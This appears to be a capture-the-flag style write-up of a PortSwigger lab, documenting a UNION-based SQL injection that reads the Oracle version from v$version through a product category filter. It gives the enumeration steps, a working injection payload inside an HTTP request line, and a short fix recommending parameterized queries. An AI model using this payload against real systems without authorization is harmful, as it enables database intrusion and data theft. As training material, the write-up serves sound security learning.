



# 🕸️ SQL injection attack, querying the database type and version on Oracle

> 🔐 Attack Type: Data Extraction via SQL Injection

**Platform:** PortSwigger  
**Category:** SQL Injection  
**Severity:** Medium  

## 🧾 Summary

Extracted Oracle database version using UNION-based SQL injection.

## 🧨 Vulnerability

SQL Injection in product filter

- **Endpoint:** `GET /filter?category=`
- **Cause:** Unsanitized user input

## ⚡ Impact

Attacker can extract database information -> enables further targeted attacks.

## 🛠️ Exploit

- Identified column count using `ORDER BY`
- Confirmed string-compatible columns via `UNION SELECT`
- Queried Oracle version from `v$version`

```http
GET /filter?category=' UNION SELECT BANNER, NULL FROM v$version-- HTTP/2
````

## 💥 Payload

`' UNION SELECT BANNER, NULL FROM v$version--`

## 📸 Evidence

* **Column Testing:**

    

* **Verifying Data Types:**

    

* **The Hack:**

    

## 🛡️ Fix

Use parameterized queries.